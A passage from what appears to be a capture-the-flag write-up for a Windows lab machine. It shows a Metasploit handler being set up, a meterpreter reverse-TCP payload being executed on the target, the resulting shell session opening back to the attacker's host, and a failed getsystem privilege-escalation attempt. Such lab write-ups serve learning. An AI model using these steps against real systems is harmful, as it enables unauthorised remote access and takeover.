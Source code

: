 Time to run another listener, before executing the `meterpreter.exe` payload we inserted. We open another terminal for msfconsole.
```
hippoeug@kali:~$ msfconsole
...
msf5 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > show options
...
msf5 exploit(multi/handler) > set lhost 10.10.x.x
lhost => 10.10.x.x
msf5 exploit(multi/handler) > set lport 4545
lport => 4545
```
Let's run it with `exploit`.

We go back to our previous terminal with the regular shell to execute our payload.
```
C:\Users\kostas\Desktop>meterpreter.exe
meterpreter.exe
```

Let's go back to the new terminal to see if we get a meterpreter reverse shell connection.
```
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.x.x:4545 
[*] Sending stage (201283 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.x.x:4545 -> 10.10.10.8:49204) at 2021-01-17 14:22:40 +0800

meterpreter > background
msf5 > sessions 

Active sessions
===============

  Id  Name  Type                     Information               Connection
  --  ----  ----                     -----------               ----------
  1         meterpreter x64/windows  OPTIMUM\kostas @ OPTIMUM  10.10.x.x:4545 -> 10.10.10.8:49204 (10.10.10.8)
```
Indeed we did!

First step, `getsystem` lol.
```
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
```
Nope.
